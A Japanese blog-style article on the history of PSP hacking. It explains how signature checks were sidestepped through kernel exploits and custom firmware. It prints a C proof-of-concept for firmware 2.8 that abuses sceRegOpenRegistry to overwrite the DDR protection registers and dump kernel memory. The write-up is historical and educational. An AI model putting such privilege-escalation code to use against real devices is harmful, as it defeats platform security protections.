 # PSPの歴史

2000年代にハッキングされていたPSPが何をしていたのか

## PSPのセキュリティとは？

PS3やPSPで動作する公式プログラムには電子署名が入っている。  
この電子署名をチェックする処理が公式FW（以下、OFW）に入っており、起動時に自作プログラムを弾くようになっている。

この電子署名には公開鍵暗号が採用されていたため、当時の計算量では解析はほぼ不可能であった。  
つまり、SONY署名を偽装することはできない。  
そこで、ハッカーはチェックアルゴリズムをスキップすることに焦点を当てて攻撃をした。

## Custom Firmware / HEN

OFWには署名チェック処理が入っているため、このままでは使えない。  
そこで、ハッカーは自作のカスタムFW（以下、CFW）を導入して自作プログラムを動かすようになる。

## どうやってやるか？

PSPには以下の二つの動作モードを持つ。

- カーネルモード
- ユーザーモード

ユーザーモードは動いているプログラムが読み取れるメモリが制限されている。（仮想メモリみたいなもの）  
そのため、ハッカーは全メモリを読み取れるカーネルモードへ何とかして入るようにkernel exploit攻撃を試みる。

最初のPSPでは、tiff形式の画像を読み取る処理にバグが存在し、そのバグを使って任意コード実行を行ってカーネルモードへ移行した。

### Kernel Exploit攻撃は何をしているか？

PSPにはカーネルとユーザーの両モードを監視して保護しているDDRプロテクションがある。  
このDDR保護によりメモリーアクセスの制限が行われる。

DDR保護の設定は、DDR保護用のハードウェアレジスタの中身によって決定されている。  
このレジスタのカーネルメモリーへのアクセスを許可する制御ビットを有効にする。

このDDRプロテクションを突破することで、ユーザープログラムはカーネル特権を取得でき、カーネルモード同様にあらゆるメモリへとアクセスできるようになる。

```C
// kernel2.8用の攻撃コード
#include 
#include 
#include 
/* Define the module info section */
PSP_MODULE_INFO("CONTROLTEST", 0, 1, 1);
/* Define the main thread's attribute value (optional) */
PSP_MAIN_THREAD_ATTR(THREAD_ATTR_USER | THREAD_ATTR_VFPU);
/* Define printf, just to make typing easier */
#define printf pspDebugScreenPrintf
int done = 0;
int main(void)
{
pspDebugScreenInit();
printf("starting the exploit..\n");
sceRegOpenRegistry(0, 0, (void *) 0xbc000000); // この関数にバグあり
sceRegOpenRegistry(0, 0, (void *) 0xbc000004); // 最後の引数は整数へのポインタを期待している。
sceRegOpenRegistry(0, 0, (void *) 0xbc000008); // しかし、保護レジスタなどの明らかに誤った値でも
sceRegOpenRegistry(0, 0, (void *) 0xbc00000c); // ハンドラは有効なポインタおして値を書き込んでしまう。
sceRegOpenRegistry(0, 0, (void *) 0xbc000010); // よって、ハッカーは好みのアドレスに0xffffffを書き込めてしまう
sceRegOpenRegistry(0, 0, (void *) 0xbc000014); // そのため、0xBC000000（DDRレジスタアドレス）以降をすべて0xffffffで埋める
sceRegOpenRegistry(0, 0, (void *) 0xbc000018); // この脆弱性からPSPの一挙手一投足まで解析されて行ってしまった。
sceRegOpenRegistry(0, 0, (void *) 0xbc00001c);
int fd = sceIoOpen("ms0:/kmem.bin",PSP_O_CREAT|PSP_O_WRONLY,0777);
sceIoWrite(fd,(void*)0x08000000,4*1024*1024);
sceIoClose(fd);
printf("done see ms0:/kmem.bin!!\n");
sceKernelSleepThreadCB();
return 0;
}
```

## 参考

- [PS3/PSPへのハッキングはなぜ可能だったか](http://blog.livedoor.jp/hiroumauma/archives/1381888.html)
